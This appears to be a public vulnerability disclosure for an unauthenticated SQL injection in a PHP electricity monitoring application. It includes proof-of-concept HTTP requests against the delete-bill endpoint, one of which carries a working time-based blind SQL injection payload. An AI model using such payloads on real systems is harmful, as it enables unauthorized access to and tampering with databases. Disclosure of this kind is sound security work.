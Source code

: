 # Electricity Consumption Monitoring Tool - Unauthenticated SQL Injection
+ *Exploit Title:* Electricity Consumption Monitoring Tool  - Unauthenticated SQL Injection
+ *Date:* 2024-04-24
+ *Exploit Author:* Asif Nawaz Minhas
+ *Vendor Homepage:* https://www.sourcecodester.com/php/17328/electricity-consumption-monitoring-tool-using-php-and-mysql-source-code.html
+ *Software Link:* https://download.code-projects.org/details/97b61777-5089-4b4f-841f-10e10be5859e
+ *Version:* 1.0
+ *Tested on:* Kali Linux + PHP 8.2.12, Apache 2.4.58
+ *CVE:* Reported, waiting for CVE number

## Description:
Electricity Consumption Monitoring Tool is vulnerable to a unauthenticated SQL injection vulnerability.  
Exploiting this issue could allow an attacker to compromise the application, access or modify data, or exploit the latest vulnerabilities in the underlying database.

## Proof of Concept:
+ Go to http://localhost/electricity-comsumption-monitoring/
+ Click X to delete a bill
+ In your history you will see a bill id with the = parameter
+ Send this request again but modify it like this:
+ GET /electricity-comsumption-monitoring/endpoint/delete-bill.php?bill=6' HTTP/1.1
+ The response shows now:


Error: SQLSTATE[42000]: Syntax error or access violation: 1064 You have an error in your SQL syntax; 
check the manual that corresponds to your MariaDB server version for the right syntax to use near ''6''' at line 1

Modify the payload now like this:

GET /electricity-comsumption-monitoring/endpoint/delete-bill.php?bill=%27%20AND%20(SELECT%207764%20FROM%20(SELECT(SLEEP(7)))BFNj)--%20SoMo HTTP/1.1

You will see a time out of 7 seconds, thus confirming the unauthenticated SQL injection vulnerability.




 ![XSS_1](https://github.com/ethicalhackerNL/CVEs/blob/fe099baf91dd62213fc46068b0aaafec5114c492/Electricity%20Consumption%20Monitoring%20Tool/unauth%20sqli%20proof.jpg)



